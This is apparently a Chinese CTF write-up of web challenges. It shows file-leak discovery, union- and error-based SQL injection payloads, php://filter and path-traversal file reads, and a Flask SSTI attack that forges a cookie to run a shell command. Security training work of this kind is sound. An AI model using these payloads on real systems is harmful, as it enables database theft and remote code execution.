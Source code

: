 

# 0x01 [信息搜集]
## 常见的搜集

敏感文件泄露，web中常见的敏感文件包括：

> 
- rbots.txt
- readme.txt/md
- www.zip/rar/tar：网站备份文件
- 中间件的banner信息，暴露中间件版本或框架版本
- gedit备份文件：后缀为~
- vim备份文件: .文件名.swp
- 未完待续。。。。

本题：
解题
发现robots,得到提示flag1_is_her3_fun.txt访问该文件，得到FALG上半部分：
![](pic/sf1.png)

发现index.php~，得到第二部部分flag: s_v3ry_im
![](pic/sf2.png)

发现.index.php.swp，下载后通过命令还原
![](pic/sf3.png)

```shell
touch index.php --先创建index.php文件
vim -r index.php --还原文件
```
![](pic/sf4.png)

## 粗心的小李

根据题目提示，是一道git泄露题，直接上工具GitHacker下载git文件

![](pic/git_01.png)
![](pic/git_02.png)

访问index.html，得到flag
![](pic/git_03.png)


# 0X02 [SQL注入]

## SQL注入-1

尝试`id=1' and 1=2 --+` 页面无显示，`id=1' and 1=1 --+` 返回内容等于`id=1`,应该是字符型注入：
![](pic/sql1_1.png)

![](pic/sql1_2.png)

尝试`id=1' and 1=1  order by 4--+` 页面无显示, 返回数据项为3项;

相关playlod如下
```
--爆库名
?id=99' union all select 1,2,database() --+
--爆表
?id=99' union all select 1,2,group_concat(table_name) from  information_schema.tables where table_schema=database() --+
--爆列
?id=99' union all select 1,2,group_concat(column_name) from  information_schema.columns where table_schema=database()  and table_name='fl4g'--+
--爆值
?id=99' union all select 1,2,fllllag from fl4g --+
```

## SQL注入-2
根据提示，访问login.php，并带上参数?tips=1 观察SQL报错信息，
> name=test'&pass=123

![](pic/sql2_1.png)

> name=test'#&pass=123

SQL不报错了，回显正常的校验信息，所以这题可以使用SQL 报错信息进行注入,使用`updatexml()`函数进行注入

**原理**:

> 当参数2不符合/xxx/xxx/xxx的格式时，函数会报错，并将值显示在报错信息中,所以可以构建如下paylod:
> 
``` sql
(updatexml(‘anything’,concat(‘~’,(select database())),’anything’))
```

``` 
--爆库名
name=test' and (updatexml('anything',concat('~',(select database())),'anything'))# &pass=1

--爆表
name=test' and (updatexml('anything',concat('~',(selselectect group_concat(table_name) from information_schema.tables where table_schema='note')),'anything'))# &pass=1 

--爆列
 name=test' and (updatexml('anything',concat('~',(selselectect group_concat(column_name) from information_schema.columns  where table_schema='note' and table_name='fl4g')),'anything'))# &pass=1

--爆值
name=test' and (updatexml('anything',concat('~',(selselectect flag from fl4g)),'anything'))# &pass=1 
  ```
![](pic/sql2_2.png)
![](pic/sql2_3.png)

# 0x03 [任意文件读取]
## afr_1
利用php伪协议,通过filter或文件（源码）的BASE64 输出，再解码：
```
?p=php://filter/convert.base64-encode/resource=flag
```
![](pic/afr1_1.png)
![](pic/afr1_2.png)

## afr_2
查看源码，看到有图片路径引用
![](pic/afr2_1.png)

尝试访问`/img/`目录
![](pic/afr2_2.png)
判断可能存在目录穿透，尝试访问`/img../`,得到FLAG
![](pic/afr2_3.png)

## afr_3

通过URL 观察得知存在文件读取，输入flag，显示无权限：
![](pic/afr3_1.png)

应该是有过滤或其他WAF需要绕过，随便输入一个文件名，发现报错信息会暴露服务器文件路径：

![](pic/afr3_2.png)

尝试cmdline(`?name=../../../../proc/self/cmdline`),发现存在python文件执行:
![](pic/afr3_3.png)

访问`name=./../../../proc/self/cwd/server.py`得到python源码：
![](pic/afr3_4.png)
整理后如下：
```python
#!/usr/bin/python
import os
from flask import ( Flask, render_template, request, url_for, redirect, session, render_template_string )
from flask_session import Session

app = Flask(__name__)
execfile('flag.py')
execfile('key.py')

FLAG = flag
app.secret_key = key
@app.route("/n1page", methods=["GET", "POST"])
def n1page():
    if request.method != "POST":
        return redirect(url_for("index"))
    n1code = request.form.get("n1code") or None
    if n1code is not None:
        n1code = n1code.replace(".", "").replace("_", "").replace("{","").replace("}","")
    if "n1code" not in session or session['n1code'] is None:
        session['n1code'] = n1code
    template = None
    if session['n1code'] is not None:
        template = '''<h1>N1 Page</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div> ''' % session['n1code']
        session['n1code'] = None
    return render_template_string(template)

@app.route("/", methods=["GET"])
def index():
    return render_template("main.html")
@app.route('/article', methods=['GET'])
def article():
    error = 0
    if 'name' in request.args:
        page = request.args.get('name')
    else:
        page = 'article'
    if page.find('flag')>=0:
        page = 'notallowed.txt'
    try:
        template = open('/home/nu11111111l/articles/{}'.format(page)).read()
    except Exception as e:
        template = e

    return render_template('article.html', template=template)

  if __name__ == "__main__":
    app.run(host='0.0.0.0', debug=False)

```
审计后可以发现：
-  `flag`被过滤: ```if page.find('flag')>=0:  page = 'notallowed.txt' ```
-  此处代码将SEESION中的值直接拼接到template中，且使用`render_template_string`进行渲染和输出，存在`SSTI`:
```python
    if session['n1code'] is not None:
         template = '''<h1>N1 Page</h1> <div class="row>
          <div class="col-md-6 col-md-offset-3 center"> Hello : %s, 
          why you don't look at our <a href='/article?name=article'>article</a>
          ? </div> </div> ''' % session['n1code'] 
          session['n1code'] = None 
   return render_template_string(template)
```
- `appkey`在`key.py`中: `?name=./../../../proc/self/cwd/key.py`
![](pic/afr3_5.png)
`Drmhze6EPcv0fN_81Bj-nA`

那么利用flask `SSTI`  进行cookie伪造达到注入：
- 使用工具[flask_session_cookie_manager](https://noraj.github.io/flask-session-cookie-manager/) 得到伪造的cookie：
```cmd
python flask_session_cookie_manager3.py  encode -s "Drmhze6EPcv0fN_81Bj-nA" -t "{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[\'os\'].popen(\'cat flag.py\').read()}}'}"

.eJwdikEKgCAQAL8SXlYvQl2CviKxbGoRmCtZhxD_nnUbZqaI2Ft2XkyiFACNaAPljNjoOBnRDHPDfC-_961IZcb-k3vcr3_cAi8UWjLAGWadOPkowdLVrYE2nR5Q-vTkpKpV1BcrHygP.Yb7zyg.oiV-yqeTY7xhwj5Nr0eSQ8vmp8o
``` 
- 抓包进行注入：
![](pic/afr3_7.png)


漏洞利用详解[python-flask-ssti(模版注入漏洞)](https://www.cnblogs.com/hackxf/p/10480071.html)

